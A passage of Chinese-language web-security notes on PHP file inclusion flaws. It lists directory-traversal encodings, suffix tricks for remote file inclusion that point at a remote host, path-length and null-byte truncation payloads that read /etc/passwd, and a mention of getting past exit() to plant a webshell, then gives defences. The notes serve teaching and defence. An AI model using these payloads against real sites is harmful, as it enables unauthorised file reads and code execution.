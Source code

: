             ```
            ../ :
                - %252e%252e%252f
            ..\	:
                - %252e%252e%255c
            
            ```

        * 容器/服务器的编码方式

            原理可见[Why does Directory traversal attack %C0%AF work?(要翻*)](https://security.stackexchange.com/questions/48879/why-does-directory-traversal-attack-c0af-work)

            ```
            ../
                - ..%c0%af
                - %c0%ae%c0%ae/   
               		注：1. java中会把”%c0%ae”解析为”\uC0AE”，最后转义为ASCCII字符的”.”（点）
                        2. Apache Tomcat Directory Traversal
            ..\
                - ..%c1%9c
            
            ```

            

2. 绕过指定后缀：`$file.'/test/test.php';`

    * 在远程文件包含漏洞（RFI）中，可以利用query或fragment来绕过后缀限制。  

        * **query(?)**

            `file=http://remoteaddr/remoteinfo.txt?`  
            则包含的文件为 `http://remoteaddr/remoteinfo.txt?/test/test.php`后缀就会被当作query从而被绕过

        * **fragment(#)**

            `file=http://remoteaddr/remoteinfo.txt%23`  则包含的文件为 `http://remoteaddr/remoteinfo.txt#/test/test.php`

3. 路径长度截断

    * 利用条件：php版本  < php 5.2.8 
    * 目录字符串，在linux下4096字节时会达到最大值，在window下是256字节。只要不断的重复`/../../../../../../../../../etc/passwd/././././././`则后缀`/test/test.php`，在达到最大值后会被直接丢弃掉。
    * 点号截断  
        * file=../../../../../../../../../boot.ini/……   只适用 Windows，点号需要长于 256。
    
4. %00字节截断 ：
    * 利用条件： php版本      < php 5.3.4   magic_quotes_gpc=off
    * file=../../../../../../../../../etc/passwd%00 能利用00截断的场景现在应该很少了

5. 绕过exit函数/die函数进行文件包含

    简单提一下，主要通过`php://filter的过滤器`，详细见[p神文章 ](https://www.leavesongs.com/PENETRATION/php-filter-magic.html) 

    5.1	通过编码如base64，rot13(类似于宽字节注入将exit合并注释)

    5.2	利用strip_tags函数去除标签,来去除“死亡exit”；由此先将输入代码编码，然后去除"死亡exit;"，然后解码进行webshell  

    只能说真滴强

## 防御

1. 写死要包含的文件，不要利用变量来构造包含的文件。
2. 做好文件的权限管理
3. 文件包含需要配置      allow_url_include=On(远程文件包含)、allow_url_fopen=On(本地文件包含) 。所以，我们可以将其关闭，这样就可以杜绝文件包含漏洞了。
4. 可以设置白名单。
5. 对危险字符进行过滤。
